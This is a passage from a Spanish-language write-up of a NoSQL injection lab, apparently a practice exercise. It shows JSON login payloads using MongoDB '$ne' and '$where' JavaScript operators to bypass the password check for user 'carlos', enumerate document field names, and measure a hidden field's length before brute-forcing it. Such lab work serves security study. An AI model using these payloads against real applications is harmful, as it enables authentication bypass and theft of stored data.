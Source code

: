 ![](/assets/img/NoSQLI-Lab-4/image_22.png)

Como anteriormente nos ha dicho que cada usuario tiene un `email`, he probado y efectivamente el `cuarto campo` es `email`

```
{
  "username": "carlos",
  "password": {
    "$ne": "testing"
  },
  "$where": "function(){ if(Object.keys(this)[3].match('email')) return 1; else 0; }"
}
```

![](/assets/img/NoSQLI-Lab-4/image_23.png)

`El quinto campo no sabemos cual puede ser`, por lo tanto vamos a tener que `bruteforcearlo`. Para `bruteforcearlo` lo primero que tenemos que hacer es `obtener` su `longitud`, en este caso al `longitud` es de `11 caracteres`

```
{
  "username": "carlos",
  "password": {
    "$ne": "testing"
  },
  "$where": "function(){ if(Object.keys(this)[4].length == 11) return 1; else return 0; }"
}
```
